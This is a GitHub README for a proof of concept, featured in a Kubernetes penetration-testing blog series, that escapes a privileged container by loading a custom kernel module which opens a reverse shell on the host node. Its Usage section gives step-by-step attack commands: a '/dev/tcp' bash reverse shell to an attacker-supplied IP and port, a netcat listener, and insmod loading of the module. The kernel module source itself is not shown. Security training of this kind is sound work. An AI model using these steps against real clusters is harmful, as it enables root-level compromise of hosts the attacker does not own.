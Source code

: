 # 🛠️ Kernel Module Reverse Shell – Privileged Container Escape PoC

This repository demonstrates a real-world **container escape technique** using a custom **Linux Kernel Module (LKM)** to spawn a reverse shell from within a `--privileged` Kubernetes container.

Featured in [RBT Security’s Kubernetes Penetration Testing – Part Three](https://www.rbtsec.com/blog/kubernetes-penetration-testing-part-three-breaking-out-with-privileged-containers/), this proof-of-concept shows how attackers can go beyond the container boundary and **execute commands directly on the host**.

Video Tutorial: https://www.youtube.com/watch?v=YHCwMQY5SYs&list=PLUMEY7cBcvDMBeAK8RbJ00VHCIZkQcTV1 

> ⚠️ **For educational and authorized testing only.**  
> Do NOT run this code in any environment you do not own or have explicit permission to test.

---

### 🔍 About LKM (Description)  
A Loadable Kernel Module (LKM) lets code run in kernel space without rebooting. When used from a privileged Kubernetes container, it can enable full host compromise. This PoC shows how attackers exploit SSTI, load a reverse shell LKM, and escape the container to gain root access on the Node.

---

## 🚀 How It Works

1. The attacker exploits a vulnerability (e.g., SSTI) to gain code execution inside a **privileged container**.  
2. A **custom kernel module** is compiled and injected from inside the container, with the reverse shell IP and port hardcoded in the source code.  
3. Once loaded, the module uses `call_usermodehelper()` to initiate a **reverse shell** to the attacker’s listener.  
4. Since the container runs with full kernel capabilities (e.g., `CAP_SYS_MODULE`), this grants **host-level command execution**.

---

## 📁 Files

- `k8s-lkm-reverse-shell.c`: The kernel module source code  
- `Makefile`: Used to compile the module for the target kernel

---

## 💻 Usage

```bash
# Step 1: Install dependencies inside the container
apt update
apt install -y build-essential linux-headers-$(uname -r)

# Step 2: Edit the reverse shell IP and port in the C source file
# File: k8s-lkm-reverse-shell.c
# Replace <your-ip> and <port> with your attacker's listener

#define REVERSE_SHELL_CMD \ "bash -i >& /dev/tcp/<your-ip>/<port> 0>&1";

# Step 3: Compile the kernel module
make clean && make

# Step 4: Start your listener
nc -lvnp 6999

# Step 5: Load the kernel module (inside the container)
insmod k8s-lkm-reverse-shell.ko
